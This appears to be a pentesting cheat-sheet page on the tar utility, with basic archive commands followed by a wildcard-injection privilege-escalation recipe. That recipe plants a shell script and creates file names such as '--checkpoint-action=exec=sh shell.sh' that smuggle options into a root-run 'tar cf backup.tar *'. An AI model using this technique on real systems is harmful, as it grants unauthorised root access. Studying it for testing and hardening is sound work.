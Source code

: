 ```yaml
---
title: Tar
desc: Archives files and directories, or extracts them.
tags: [Linux, PrivEsc, SMB, SUID, Windows]
alts: [7zip, Bzip2, Gzip, Zip]
website:
render_with_liquid: false
---
```


## Create archives

```sh
tar -cf archive.tar sample.txt
tar -cf archive.tar sample1.txt sample2.txt
```

<br />

## Extract

```sh
tar -xf archive.tar
tar -xf archive.tar.gz
```

<br />

## View the content

```sh
tar -tf archive.tar
```

<br />

## Wildcard Injection

```sh
# Check if there are 'tar' command and wildcard(*) in the sudoers
sudo -l

(root) NOPASSWD: /opt/backups/backup.sh


# Move to the directory and check the content.
cd /opt/backups
cat backup.sh

tar cf backup.tar *


# Payloads
cd /opt/backups
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1


# Check current user
whoami
```